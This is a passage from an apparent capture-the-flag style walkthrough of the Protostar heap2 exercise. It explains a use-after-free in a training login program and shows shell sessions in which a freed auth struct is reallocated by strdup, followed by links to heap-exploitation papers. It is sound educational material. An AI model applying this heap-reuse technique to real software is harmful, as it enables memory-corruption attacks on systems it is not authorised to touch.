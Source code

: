 ```c
          } else {
              printf("please enter your password\n");
          }
      }
  }
}
```

In this program, we have a login service that reads data from `stdin`. Our
goal here is to have the program print "you have logged in already!".

We have several commands, `auth`, `reset`, `service` and `login`, that we can
call.

```shell
user@protostar:~$ /opt/protostar/bin/heap2
[ auth = (nil), service = (nil) ]
auth test
[ auth = 0x804c008, service = (nil) ]
service AAAA
[ auth = 0x804c008, service = 0x804c018 ]
login
please enter your password
[ auth = 0x804c008, service = 0x804c018 ]
reset
[ auth = 0x804c008, service = 0x804c018 ]
```

We notice that the `auth` pointer still points to the original memory location
after the `reset` command, which `free()`'s the allocated memory. Subsequent
`login` commands then accesses the freed memory with `auth->auth`. This is a
good example of the classic Use-After-Free vulnerability. If we can overwrite
the original struct's `auth` member with `1`, we can successfully exploit this.

With glibc's malloc, heap chunks are assigned on a "best fit" basis. This can
be manipulated with various techniques (heap spraying, heap feng shui) to set
up heap memory in a way that is useful for exploitation.

For this level though, we can keep things very simple. We can allocate a
`auth` struct and free it with the `reset` command. Next, we use the `service`
command which calls the `strdup()` function that allocates memory on the heap.
We see that `strdup()` allocates memory at the same location as the freed
`auth` struct since there are no other chunks in use.

```shell
user@protostar:~$ /opt/protostar/bin/heap2
[ auth = (nil), service = (nil) ]
auth AAAA
[ auth = 0x804c008, service = (nil) ]
reset
[ auth = 0x804c008, service = (nil) ]
service BBBB
[ auth = 0x804c008, service = 0x804c008 ]
```


[exploit-exercises]: https://exploit-exercises.com
[protostar-stack-writeup]: 2018-05-22-protostar-walkthrough-stack
[protostar-format-writeup]: 2018-05-27-protostar-walkthrough-format
[dlmalloc]: http://g.oswego.edu/dl/html/malloc.html
[glibc-malloc-internals]: https://sourceware.org/glibc/wiki/MallocInternals
[understanding-the-heap]: https://www.blackhat.com/presentations/bh-usa-07/Ferguson/Whitepaper/bh-usa-07-ferguson-WP.pdf
[phrack-vudo]: http://phrack.org/issues/57/8.html
[once-upon-a-free]: http://phrack.org/issues/57/9.html
[advanced-dlmalloc-exploits]: http://phrack.org/issues/61/6.html
[malloc-maleficarum]: https://dl.packetstormsecurity.net/papers/attack/MallocMaleficarum.txt
[malloc-des-maleficarum]: http://phrack.org/issues/66/10.html
[how2heap]: https://github.com/shellphish/how2heap